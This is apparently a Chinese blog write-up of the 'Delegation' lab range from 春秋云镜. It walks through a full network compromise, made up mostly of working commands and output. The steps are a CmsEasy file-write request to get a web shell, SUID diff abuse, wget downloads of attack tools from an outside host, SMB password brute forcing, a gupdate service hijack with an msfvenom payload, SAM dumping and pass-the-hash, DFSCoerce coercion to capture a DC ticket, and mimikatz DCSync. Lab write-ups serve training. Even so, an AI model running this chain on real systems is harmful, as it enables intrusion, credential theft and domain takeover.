+++
title= "春秋云镜Delegation"
slug= "springautumn-cloudmirror--delegation"
description= "easyCMS7.7.5、LocalSystem转储hash、DFSCoerce强制认证 + Kerberos 票据劫持、DCSync"
date= "2025-08-28T21:47:03+08:00"
lastmod= "2025-08-28T21:47:03+08:00"
image= ""
license= ""
categories= ["春秋云镜"]
tags= ["Pentest"]

+++

## flag1

打开看到是easyCMS，管理员弱密码`/admin`，登录`admin\123456`

https://jdr2021.github.io/2021/10/14/CmsEasy_7.7.5_20211012%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%85%A5%E5%92%8C%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E/#%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%85%A5%E6%BC%8F%E6%B4%9Egetshell

```bash
POST /index.php?case=template&act=save&admin_dir=admin&site=default HTTP/1.1
Host: 39.99.235.44
Cookie: PHPSESSID=sg1g6abcfcmvagpbanm7cd78h8;login_username=admin; login_password=a14cdfc627cef32c707a7988e70c1313;
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Content-Type: application/x-www-form-urlencoded

sid=#data_d_.._d_.._d_.._d_1.php&slen=693&scontent=<?php phpinfo();?>
```

写一个木马



suid提权，

```bash
(www-data:/var/www/html) $ find / -perm -u=s -type f 2>/dev/null
/usr/bin/stapbpf
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/su
/usr/bin/chsh
/usr/bin/staprun
/usr/bin/at
/usr/bin/diff
/usr/bin/fusermount
/usr/bin/sudo
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/passwd
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
```

https://gtfobins.github.io/gtfobins/diff/

```bash
diff --recursive $(mktemp -d) /home/flag/
diff --line-format=%L /dev/null /home/flag/flag01.txt
```



## flag2

把fscan和ligolo-ng传上去，扫描内网和搭建代理

```bash
cd /tmp

wget http://8.137.148.227/fscan
wget http://8.137.148.227/agent

chmod +x *
```

先用fscan扫描一下

```bash
(www-data:/tmp) $ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.22.4.36  netmask 255.255.0.0  broadcast 172.22.255.255
        inet6 fe80::216:3eff:fe08:f3f1  prefixlen 64  scopeid 0x20<link>
        ether 00:16:3e:08:f3:f1  txqueuelen 1000  (Ethernet)
        RX packets 98299  bytes 137936303 (137.9 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 22820  bytes 5577708 (5.5 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 656  bytes 57319 (57.3 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 656  bytes 57319 (57.3 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

./fscan -h 172.22.4.36/24


172.22.4.36:21 open
172.22.4.45:445 open
172.22.4.19:445 open
172.22.4.7:445 open
172.22.4.45:139 open
172.22.4.7:139 open
172.22.4.45:135 open
172.22.4.19:139 open
172.22.4.19:135 open
172.22.4.7:135 open
172.22.4.36:80 open
172.22.4.45:80 open
172.22.4.36:22 open
172.22.4.7:88 open
172.22.4.36:3306 open
[*] NetBios 172.22.4.45     XIAORANG\WIN19                
[*] NetBios 172.22.4.7      [+] DC:DC01.xiaorang.lab             Windows Server 2016 Datacenter 14393
[*] NetInfo 
[*]172.22.4.7
   [->]DC01
   [->]172.22.4.7
[*] NetInfo 
[*]172.22.4.19
   [->]FILESERVER
   [->]172.22.4.19
[*] NetInfo 
[*]172.22.4.45
   [->]WIN19
   [->]172.22.4.45
[*] OsInfo 172.22.4.7	(Windows Server 2016 Datacenter 14393)
[*] NetBios 172.22.4.19     FILESERVER.xiaorang.lab             Windows Server 2016 Standard 14393
[*] WebTitle http://172.22.4.36        code:200 len:68100  title:中文网页标题
[*] WebTitle http://172.22.4.45        code:200 len:703    title:IIS Windows Server
```

- 172.22.4.36  已经控下
- 172.22.4.45     XIAORANG\WIN19
- 172.22.4.7  DC01.xiaorang.lab
- 172.22.4.19  FILESERVER.xiaorang.lab

搭建代理

```bash
nohup ./agent -bind 0.0.0.0:10010 > agent.log 2>&1 &


sudo ./proxy -selfcert -laddr "0.0.0.0:10001"

connect_agent --ip 39.99.235.44:10010

interface_list
session
autoroute

nohup ./gost -L=socks://:1080 > gost.log 2>&1 &

# 查看是否开启
ss -luntp
```

既然给了WIN19这台机器的用户名，可以爆破smb

```bash
netexec smb 172.22.4.45 -u Adrian -p /usr/share/wordlists/rockyou.txt -d WIN19 --ignore-pw-decoding > 1.log 2>&1

grep "\[+\]" 1.log
grep "password.*expir\|STATUS_PASSWORD_EXPIRED" 1.log

WIN19\Adrian babygirl1
```



密码过期了，修改一下密码就好，登录之后看到有很多配置文件



打开看到谷歌更新有特殊权限



查看注册表对于可执行文件的权限设置

```bash
Get-Acl -path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options" | fl *
```





可以去篡改这个启动项搞些恶意操作，仔细看是LocalSystem的User，可以转储sam

```bat
reg save hklm\system C:\Users\Adrian\Desktop\system
reg save hklm\sam C:\Users\Adrian\Desktop\sam
reg save hklm\security C:\Users\Adrian\Desktop\security
```

再生成一个恶意exe进行替换

```bash
msfvenom -p windows/x64/exec cmd='C:\windows\system32\cmd.exe /c C:\users\Adrian\Desktop\sam.bat ' --platform windows -f exe-service > a.exe
```

修改`gupdate`服务的`ImagePath`，指向恶意文件，进行更新，成功提权

```bash
reg add "HKLM\SYSTEM\CurrentControlSet\Services\gupdate" /t REG_EXPAND_SZ /v ImagePath /d "C:\Users\Adrian\Desktop\a.exe" /f

sc start gupdate
```

解析sam成hash

```bash
impacket-secretsdump LOCAL -sam sam -security security -system system
```

再进行hash传递攻击

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:ba21c629d9fd56aff10c3e826323e6ab:::

impacket-wmiexec -hashes aad3b435b51404eeaad3b435b51404ee:ba21c629d9fd56aff10c3e826323e6ab Administrator@172.22.4.45 -codec gbk

cd C:\Users\Administrator\flag
type flag02.txt
```

## flag3&&flag4

有了机器用户hash，他也是个域用户，进行域内信息收集

```bash
bloodhound-python -u win19$ --hashes ":c03ae7549a98c76891362e156c920bf5" -d xiaorang.lab -dc dc01.xiaorang.lab -c all --dns-tcp -ns 172.22.4.7 --auth-method ntlm --zip
```

也可以弹出终端来收集，都行

```bash
net user test1 baozongwi123! /add
net localgroup administrators test1 /add

privilege::debug
sekurlsa::pth /user:win19$ /domain:XIAORANG.LAB /ntlm:c03ae7549a98c76891362e156c920bf5

net user /domain
```

现在控下了win19这台机器，



> The computer WIN19.XIAORANG.LAB is configured with Kerberos unconstrained delegation.computerWIN19.XIAORANG.LAB 配置了 Kerberos 不受约束的委派。Users and computers authenticating against WIN19.XIAORANG.LAB will have their Kerberos TGT sent to WIN19.XIAORANG.LAB, unless they are marked as sensitive or members of Protected Users.根据 WIN19 进行身份验证的用户和计算机。小让.LAB 会将其 Kerberos TGT 发送到 WIN19.XIAORANG.LAB，除非它们被标记为敏感用户或受保护用户的成员。An attacker with control over WIN19.XIAORANG.LAB can coerce a Tier Zero computer (e.g. DC) to authenticate against WIN19.XIAORANG.LAB and obtain the target's TGT. With the TGT of a DC, the attacker can perform DCSync to compromise the domain. 控制 WIN19 的攻击者。小让.LAB 可以强制零级计算机（例如 DC）对 WIN19 进行身份验证。小让.LAB 并获取目标的 TGT。借助 DC 的 TGT，攻击者可以执行 DCSync 来破坏域。所以我们强制认证去打这个非约束委派就行了

所以现在需要找一个合适的强制认证就可以了，用`netexec`扫出来**DFSCoerce**，可以进行Kerberos票据劫持

 https://github.com/Wh04m1001/DFSCoerce 

```bash
Rubeus.exe monitor /interval:1 /nowrap /targetuser:DC01$

python3 dfscoerce.py -u "WIN19$" -hashes ":c03ae7549a98c76891362e156c920bf5" -d xiaorang.lab win19 172.22.4.7
```



过一会就能监听到TGT



票据保存为kirbi文件

```bash
doIFlDCCBZCgAwIBBaEDAgEWooIEnDCCBJhhggSUMIIEkKADAgEFoQ4bDFhJQU9SQU5HLkxBQqIhMB+gAwIBAqEYMBYbBmtyYnRndBsMWElBT1JBTkcuTEFCo4IEVDCCBFCgAwIBEqEDAgECooIEQgSCBD47upeL33nWPkAGhnK3M5xGiy2PjlAMrPiyiFuyYXJW+3zXpEi38/RsBrfgOS+h475e1uAiJdippHw+EpfX5vL42XglTa3Wo4ppajIlgeHtmhcMxmXiu2zLgr4Eyg7zMUf8j8IJ5zli+fUUVrvGUxDaiIKn7inLQRK4hA1KPr6B+7Ym+iT9nJBPwunCGUWfJMyWYAsaGbGrgYM+qtQG1FmlG7nyI13tfrJ1HCl8mdiYeirA+EPTs2/fA6HO4VsNADV2t8OQh2TBGTrNGSR/KMCgSsfbn9BKy5b1EttSGfMO1FsseNkkfJHG2scVUkeOe3X+jKIQilPgQTuqeIJP9pVklCJa7ZEf0aMpaB7dK/FTRJDsEdNq7lNEQ07DYfJKyPSkF3N6vL9Ol+GO+XF4q91T+JqMoHEdERUQc02UijqqTZnWDl0MPQzaCtKyOXByvhcQER+O/RhpPXoxsGRn5wcZ9WLwp+EL0h2a3KiXcY8olsz3pKQI7V76Ihc/+1vaAiccz1lYMydKLOBdk2XnHbteTprA3kdt5ZJKimLhytD7CzxUYyOP2vCPqiT22KoqKmfMK6XFI4wOPtZYscvSKP5xD5fz3yGVlPbvUaFU/xKUMldTyk94WiqBQ9iEt9VN/mS2Yh9i1+DASQRIwSMlo28QOqhOGpjrdjfdHdVYJg7xypUvEeEw8jnTGHyCW2VAQ3UZGFg2wIVHl/hUjJEY60ipIAkopxv3PrODhHHdRRFVOrLOvTsSb/8oPBI3pxkHfl+zP0VmSEffE2HnHR9W5+NGUAZwFwty5MrxQDhucTTapf26TU0fYojBkMqqr6nDA5iSqbPhRgYrFgjOsfa9JXXWc7ZL8VYfia5Ka0hGLH0TeEUYq+Ix2EXln3mXZ+8ketBZna2Yuy/QPufaJMNrXiERdKO3T8ASbyY4nTXq4FfSH8wlpuX2/g0fUCGs8/nQmVZDxJDtSI2gp7sMv0Nl/m+R1c7aaH/P3HWsVIhFe3P05h5/8HUUxSBA8HfvFwqXlcPhTzDPHrL1oTmbwnipK6SBNdjxIGgGftR7xLn62g8311TcVzoTsVV0/guxdc0plVB9DYeaKfxB7tErKrLZGM8YXqekLSU3yVyFoJRHUxjPvvmqZQBfTx+nvDW26mK4ngRNLN8JJ4/Vy7Y5AcBOskP+UpAU449IEc46pLOheGvKca7CfGN1gPY8JULIkfrPLqPuTnkVp5SDV7oXrU91AkBdnl1wi7ghgWUZVR2gEe7eK4ks7xXkce8UDx5sJXmCV22SFQFRi1B/yVqfGHtR8HWCAkexEV3F7ojvGDRWybpIN308HkpRRRyJhnGAnwhtiV7+0T+6xsqr32SUv0wO3cUyt67NEPE+Ik1uxDr2TLjKnfHgwsLtON1jvurAdI9sul2MfZiYSY6FbzL4j4he27iNmhnZ8pGF/6PMxEFCj7GjgeMwgeCgAwIBAKKB2ASB1X2B0jCBz6CBzDCByTCBxqArMCmgAwIBEqEiBCDxcX3ziV4cKd38EPGQd902phcV20wJ4BUJY9jgf5to66EOGwxYSUFPUkFORy5MQUKiEjAQoAMCAQGhCTAHGwVEQzAxJKMHAwUAYKEAAKURGA8yMDI1MDYxOTA0NDkzN1qmERgPMjAyNTA2MTkxNDQ5MzdapxEYDzIwMjUwNjI2MDQ0OTM3WqgOGwxYSUFPUkFORy5MQUKpITAfoAMCAQKhGDAWGwZrcmJ0Z3QbDFhJQU9SQU5HLkxBQg==
    
echo 'doIFlDCCBZCgAwIBBaEDAgEWooIEnDCCBJhhggSUMIIEkKADAgEFoQ4bDFhJQU9SQU5HLkxBQqIhMB+gAwIBAqEYMBYbBmtyYnRndBsMWElBT1JBTkcuTEFCo4IEVDCCBFCgAwIBEqEDAgECooIEQgSCBD47upeL33nWPkAGhnK3M5xGiy2PjlAMrPiyiFuyYXJW+3zXpEi38/RsBrfgOS+h475e1uAiJdippHw+EpfX5vL42XglTa3Wo4ppajIlgeHtmhcMxmXiu2zLgr4Eyg7zMUf8j8IJ5zli+fUUVrvGUxDaiIKn7inLQRK4hA1KPr6B+7Ym+iT9nJBPwunCGUWfJMyWYAsaGbGrgYM+qtQG1FmlG7nyI13tfrJ1HCl8mdiYeirA+EPTs2/fA6HO4VsNADV2t8OQh2TBGTrNGSR/KMCgSsfbn9BKy5b1EttSGfMO1FsseNkkfJHG2scVUkeOe3X+jKIQilPgQTuqeIJP9pVklCJa7ZEf0aMpaB7dK/FTRJDsEdNq7lNEQ07DYfJKyPSkF3N6vL9Ol+GO+XF4q91T+JqMoHEdERUQc02UijqqTZnWDl0MPQzaCtKyOXByvhcQER+O/RhpPXoxsGRn5wcZ9WLwp+EL0h2a3KiXcY8olsz3pKQI7V76Ihc/+1vaAiccz1lYMydKLOBdk2XnHbteTprA3kdt5ZJKimLhytD7CzxUYyOP2vCPqiT22KoqKmfMK6XFI4wOPtZYscvSKP5xD5fz3yGVlPbvUaFU/xKUMldTyk94WiqBQ9iEt9VN/mS2Yh9i1+DASQRIwSMlo28QOqhOGpjrdjfdHdVYJg7xypUvEeEw8jnTGHyCW2VAQ3UZGFg2wIVHl/hUjJEY60ipIAkopxv3PrODhHHdRRFVOrLOvTsSb/8oPBI3pxkHfl+zP0VmSEffE2HnHR9W5+NGUAZwFwty5MrxQDhucTTapf26TU0fYojBkMqqr6nDA5iSqbPhRgYrFgjOsfa9JXXWc7ZL8VYfia5Ka0hGLH0TeEUYq+Ix2EXln3mXZ+8ketBZna2Yuy/QPufaJMNrXiERdKO3T8ASbyY4nTXq4FfSH8wlpuX2/g0fUCGs8/nQmVZDxJDtSI2gp7sMv0Nl/m+R1c7aaH/P3HWsVIhFe3P05h5/8HUUxSBA8HfvFwqXlcPhTzDPHrL1oTmbwnipK6SBNdjxIGgGftR7xLn62g8311TcVzoTsVV0/guxdc0plVB9DYeaKfxB7tErKrLZGM8YXqekLSU3yVyFoJRHUxjPvvmqZQBfTx+nvDW26mK4ngRNLN8JJ4/Vy7Y5AcBOskP+UpAU449IEc46pLOheGvKca7CfGN1gPY8JULIkfrPLqPuTnkVp5SDV7oXrU91AkBdnl1wi7ghgWUZVR2gEe7eK4ks7xXkce8UDx5sJXmCV22SFQFRi1B/yVqfGHtR8HWCAkexEV3F7ojvGDRWybpIN308HkpRRRyJhnGAnwhtiV7+0T+6xsqr32SUv0wO3cUyt67NEPE+Ik1uxDr2TLjKnfHgwsLtON1jvurAdI9sul2MfZiYSY6FbzL4j4he27iNmhnZ8pGF/6PMxEFCj7GjgeMwgeCgAwIBAKKB2ASB1X2B0jCBz6CBzDCByTCBxqArMCmgAwIBEqEiBCDxcX3ziV4cKd38EPGQd902phcV20wJ4BUJY9jgf5to66EOGwxYSUFPUkFORy5MQUKiEjAQoAMCAQGhCTAHGwVEQzAxJKMHAwUAYKEAAKURGA8yMDI1MDYxOTA0NDkzN1qmERgPMjAyNTA2MTkxNDQ5MzdapxEYDzIwMjUwNjI2MDQ0OTM3WqgOGwxYSUFPUkFORy5MQUKpITAfoAMCAQKhGDAWGwZrcmJ0Z3QbDFhJQU9SQU5HLkxBQg==' | base64 -d > DC01.kirbi
```

有了域控的凭据，用猕猴桃注入票据，进行DCSync攻击

```bash
.\mimikatz.exe "kerberos::purge" "kerberos::ptt DC01.kirbi" "lsadump::dcsync /domain:xiaorang.lab /user:administrator" "exit"
```



```bash
4889f6553239ace1f7c47fa2c619c252

impacket-psexec -hashes :4889f6553239ace1f7c47fa2c619c252 xiaorang.lab/Administrator@172.22.4.19

cd C:\Users\Administrator\flag
type flag03.txt

impacket-psexec -hashes :4889f6553239ace1f7c47fa2c619c252 xiaorang.lab/Administrator@172.22.4.7

cd C:\Users\Administrator\flag
type flag04.txt
```

